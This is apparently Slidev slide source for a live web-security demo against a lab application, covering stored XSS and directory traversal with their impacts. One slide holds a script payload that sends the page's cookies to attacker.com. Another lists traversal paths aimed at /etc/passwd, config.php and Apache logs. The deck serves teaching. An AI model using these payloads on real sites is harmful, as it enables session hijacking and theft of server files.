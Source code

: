 ```yaml
---
layout: section
---
```


# Live Demonstrations

<div class="slide-number">
  <SlideCurrentNo />/<SlideTotalNo />
</div>

---
layout: default
---

# Stored XSS Attack

<div class="grid grid-cols-2 gap-8">
  <div>
    <h3 class="uppercase text-gray-400 tracking-wider mb-4">Advanced Payload</h3>

```js
<script>
  var xhr = new XMLHttpRequest();
  xhr.open('GET', '<http://attacker.com/?cookie=>' 
            + document.cookie);
  xhr.send();

  document.body.style.backgroundColor = 'red';
  alert('XSS Démonstration');
</script>
```
  </div>

  <div>
    <h3 class="uppercase text-gray-400 tracking-wider mb-4">Attack Process</h3>
    <div class="space-y-4">
      <p>1. Navigate to "Stored XSS Blog"</p>
      <p>2. Post a normal message first</p>
      <p>3. Submit XSS payload</p>
      <p>4. Observe execution on each visit</p>
    </div>
  </div>
</div>

<div class="slide-number">
  <SlideCurrentNo />/<SlideTotalNo />
</div>

---
layout: default
---

# Directory Traversal

<div class="grid grid-cols-2 gap-8">
  <div>
    <h3 class="uppercase text-gray-400 tracking-wider mb-4">Target Files</h3>

```bash
# System Files
../../../etc/passwd
../../../etc/hosts
../../../etc/hostname

# Application Files
../../../var/www/html/config.php
../../../var/log/apache2/access.log
../../../etc/apache2/apache2.conf
```

  </div>

  <div>
    <h3 class="uppercase text-gray-400 tracking-wider mb-4">Exploitation Steps</h3>
    <div class="space-y-4">
      <p>1. Access "Directory Traversal - Files"</p>
      <p>2. Test normal file access</p>
      <p>3. Use path traversal sequences</p>
      <p>4. Access sensitive files</p>
    </div>
  </div>
</div>

<div class="slide-number">
  <SlideCurrentNo />/<SlideTotalNo />
</div>


---
layout: default
---

# Security Impact

<div class="grid grid-cols-2 gap-8">
  <div class="bg-red-50/20 p-6 rounded-lg">
    <h3 class="font-bold mb-4">XSS Impact</h3>
    <div class="space-y-2">
      <p>• Session hijacking</p>
      <p>• Data theft</p>
      <p>• Page defacement</p>
      <p>• Malicious redirects</p>
    </div>
  </div>

  <div class="bg-blue-50/20 p-6 rounded-lg">
    <h3 class="font-bold mb-4">Directory Traversal Impact</h3>
    <div class="space-y-2">
      <p>• Configuration exposure</p>
      <p>• System information leak</p>
      <p>• Sensitive data access</p>
      <p>• Log file disclosure</p>
    </div>
  </div>
</div>

<div class="slide-number">
  <SlideCurrentNo />/<SlideTotalNo />
</div>
